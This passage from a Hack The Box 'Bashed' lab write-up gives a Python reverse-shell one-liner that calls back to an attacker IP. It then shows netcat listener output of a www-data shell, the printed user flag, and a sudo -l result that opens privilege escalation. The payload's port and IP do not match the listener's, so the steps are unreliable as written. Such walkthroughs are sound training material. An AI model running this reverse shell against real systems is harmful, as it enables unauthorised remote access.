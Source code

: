 ![HTB-Bashed-WebShell](~/assets/images/htb-bashed-webshell2.png)

Type / copy paste the below to get a reverse shell , simultaneously fire up a netcat listner.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

In netcat listner we can see we got connection/shell back.
```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777   
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.68] 46602
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home
arrexel
scriptmanager
```

### User Flag,

Let us get the user flag.
We see two user and one of these has the user flag that we now can get.

```bash
$ cd arrexel
$ ls
user.txt
$ cat user.txt
57c8f5fb610baf65badd72c52c674767
```

### Privilege Escalation

Checking what privileges we have, we discover scriptmanager user has some, which we enumerate further.

We assume scriptmanager role by - sudo -i -u scriptmanager
```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.68] 46604
/bin/sh: 0: can't access tty; job control turned off
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```
